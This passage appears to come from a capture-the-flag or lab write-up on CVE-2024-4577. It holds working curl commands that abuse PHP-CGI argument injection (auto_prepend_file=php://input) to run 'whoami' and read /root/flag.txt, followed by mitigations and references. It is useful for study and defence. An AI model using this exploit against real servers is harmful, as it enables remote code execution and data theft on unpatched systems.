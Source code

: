 ## 6. Exploitation

### Step 1: Proof of Concept

```bash
# Create shell payload
cat > shell.txt << 'EOF'
whoami
EOF

# Exploit
curl -i -X POST \
  "http://<HOST>:5000/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary @shell.txt
```

**Expected Output:**
```
[START]
www-data
[END]
```

### Step 2: Read the Flag

```bash
cat > flag.txt << 'EOF'
cat /root/flag.txt
EOF

curl -i -X POST \
  "http://<HOST>:5000/cgi-bin/php-cgi?%ADd+auto_prepend_file%3Dphp://input" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-binary @flag.txt
```

---

## 7. Mitigations

- **Disable PHP-CGI**: Remove or secure `/cgi-bin/php-cgi`.  
- **Enforce `cgi.force_redirect=1`** in `php.ini`.  
- **Disable INI overrides**: Patch or update PHP to block `-d` via CGI.  
- **Use PHP-FPM** with strict pools and chroot.  
- **Harden `allow_url_include`**, `disable_functions`, and file permissions.

---

## 8. References

- NVD CVE-2024-4577:  
  https://nvd.nist.gov/vuln/detail/CVE-2024-4577  
- Akamai Blog:  
  https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure  
- Tarlogic Blog:  
  https://www.tarlogic.com/blog/cve-2024-4577-critical-vulnerability-php/  
- Microsoft Q&A:  
  https://learn.microsoft.com/en-us/answers/questions/1725847/php-8-3-vulnerability-cve-2024-4577  
- Stormshield Security Alert:  
  https://www.stormshield.com/news/security-alert-php-cve-2024-4577-stormshields-product-response/  

---